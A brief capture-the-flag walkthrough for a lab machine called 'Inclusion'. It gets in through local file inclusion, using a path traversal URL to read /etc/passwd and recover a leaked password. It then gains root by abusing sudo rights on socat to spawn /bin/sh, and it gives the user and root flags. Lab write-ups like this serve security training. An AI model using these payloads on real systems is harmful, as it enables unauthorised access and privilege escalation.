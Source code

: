 # INCLUSION

## BASIC INFO
```
export IP=10.10.65.76
```

## ROOT IT

> - **user flag**
>> 60989655118397345799

LFI on the webpage. Navigate to `$IP/?page=../../../../../ect/passwd`
```
#falconfeast:rootpassword
```

> - **root flag**
>> 42964104845495153909

`sudo -l` to see what command we can run. Seems like `socat` it is.
```
socat stdin exec:/bin/sh
```
